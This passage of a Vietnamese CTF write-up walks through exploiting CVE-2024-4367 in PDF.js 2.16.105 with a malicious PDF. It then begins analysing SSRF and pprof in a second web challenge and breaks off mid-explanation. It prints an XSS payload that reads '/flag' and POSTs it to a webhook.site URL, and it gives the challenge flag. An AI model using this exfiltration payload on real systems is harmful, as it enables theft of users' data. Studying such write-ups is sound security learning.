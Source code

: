 Ở đây version của nó là `2.16.105`

![image](https://hackmd.io/_uploads/HyjqXJVBR.png)

nhưng mình tìm được 1 CVE mới diễn ra hồi tháng 5 vừa qua đó là thực thi mã JS bất kì khi sử dụng 1 file PDF độc hại.

![image](https://hackmd.io/_uploads/rJIOmkVrR.png)


Thử upload file pdf độc hại lên check.

![image](https://hackmd.io/_uploads/BJm-4k4BR.png)

Alert đã có. Giờ viết payload sao để flag route đến webhook của mình thôi.

Payload `fetch('/flag').then(response => { return response.json(); }).then\(data => { fetch('https://webhook.site/a7c640b4-bf85-48b3-bfa1-db406cf9d89a', {method: 'POST',mode: 'no-cors',body: JSON.stringify(data)}) })`

![image](https://hackmd.io/_uploads/SJKT41EHA.png)

> Chú ý khi sửa payload trong BurpSuite thì mình phải để các dấu `\` trước các dấu `()`. (Đọc kĩ [PoC](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/) để biết tại sao).

Gửi đến con bot: http://127.0.0.1:5000/view/file-1717986450021.pdf

![image](https://hackmd.io/_uploads/rJ1UHyVSR.png)

Flag: `AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}`


## Proxy For Life 
 
![image](https://hackmd.io/_uploads/SkB6HkVHC.png)

Nhìn preview kiểu này nghĩ ngay đến SSRF đúng không? Tiếp theo đọc source code. 

![image](https://hackmd.io/_uploads/Sk1fLyNH0.png)

Nó sau khi fetch đến URL user cung cấp rồi sẽ đọc response rồi render ra. Nghĩ ngay đến SSTI đúng không? NHƯNG, nhưng 2 lỗ hổng này còn thiếu 1 điều gì đó mới exploit được
1. SSRF: ![image](https://hackmd.io/_uploads/B19F8JErC.png)
Ở đây web sử dụng doyensec để get đến url, 1 công cụ chống SSRF open source, và dùng bản lastest được phát hành từ năm ngoái (v 0.2.1)
2. SSTI: ![image](https://hackmd.io/_uploads/BkIevJVSA.png)
. Hàm renderTemplate này chỉ sử dụng ExecuteTemplate cùng với loại mà nó import `'html/template'` cho nên nó chỉ parse các thẻ html của mình được thôi. Nếu có thì chỉ reflected XSS được thôi.

Sau khi giải kết thúc, người ta mới cung cấp cho mình 1 cái [link](https://pkg.go.dev/net/http/pprof). 
Web này có phần import giống với cái link trên `import _ "net/http/pprof"`, cùng với đoạn sau

![image](https://hackmd.io/_uploads/S1_TPJNrC.png)
